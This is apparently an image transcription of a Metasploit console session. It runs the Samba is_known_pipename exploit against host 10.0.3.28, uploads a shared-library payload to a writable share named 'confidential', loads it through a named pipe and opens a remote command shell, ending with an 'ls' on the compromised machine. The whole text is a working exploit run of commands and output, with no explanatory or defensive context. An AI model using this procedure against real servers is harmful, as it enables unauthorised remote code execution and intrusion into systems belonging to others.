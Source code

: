 ```bash
   6   Linux MIPS
   7   Linux MIPSLE
   8   Linux MIPS64
   9   Linux MIPS64LE
   10  Linux PPC
   11  Linux PPC64
   12  Linux PPC64 (LE)
   13  Linux SPARC
   14  Linux SPARC64
   15  Linux s390x


msf exploit(linux/samba/is_known_pipename) > options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST                            yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf exploit(linux/samba/is_known_pipename) > set RHOST 10.0.3.28
RHOST => 10.0.3.28
msf exploit(linux/samba/is_known_pipename) > exploit

[*] 10.0.3.28:445 - Using location \\10.0.3.28\confidential\ for the path
[*] 10.0.3.28:445 - Retrieving the remote path of the share 'confidential'
[*] 10.0.3.28:445 - Share 'confidential' has server-side path '/home/custard/confidential
[*] 10.0.3.28:445 - Uploaded payload to \\10.0.3.28\confidential\ikBDgapY.so
[*] 10.0.3.28:445 - Loading the payload from server-side path /home/custard/confidential/ikBDgapY.so using \\PIPE\/home/custard/confidential/ikBDgapY.so...
[+] 10.0.3.28:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.168.10.50:38491 -> 10.0.3.28:445) at 2018-11-28 15:18:58 -0500

ls
_cafenv-appconfig_
vmware-root
```
